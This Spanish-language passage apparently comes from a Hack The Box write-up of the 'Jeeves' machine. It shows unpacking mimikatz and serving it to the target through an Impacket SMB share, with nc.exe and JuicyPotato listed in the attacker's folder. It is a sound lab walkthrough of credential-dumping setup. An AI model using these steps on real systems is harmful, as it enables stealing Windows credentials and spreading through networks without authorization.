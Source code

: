 - Algo que podemos hacer es subir el `mimikatz.exe`.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/jeeves/ok.png">
</p>

- <https://github.com/gentilkiwi/mimikatz/releases/>.

```bash
❯ unzip mimikatz_trunk.zip
Archive:  mimikatz_trunk.zip
  inflating: kiwi_passwords.yar
  inflating: mimicom.idl
  inflating: README.md
   creating: Win32/
  inflating: Win32/mimidrv.sys
  inflating: Win32/mimikatz.exe
  inflating: Win32/mimilib.dll
  inflating: Win32/mimilove.exe
  inflating: Win32/mimispool.dll
   creating: x64/
  inflating: x64/mimidrv.sys
  inflating: x64/mimikatz.exe
  inflating: x64/mimilib.dll
  inflating: x64/mimispool.dll
❯ ls
 Win32   CEH.kdbx   JuicyPotato.exe      mimicom.idl          nc.exe
 x64     hash       kiwi_passwords.yar   mimikatz_trunk.zip   README.md
❯ cd x64
❯ ls
 mimidrv.sys   mimikatz.exe   mimilib.dll   mimispool.dll
```

- Ahora aprovechándonos de nuestro recurso compartido que tenemos con `smbserver.py` vamos a subirlo.

```bash
❯ smbserver.py parrotsec . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49676)
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:parrotsec)
```
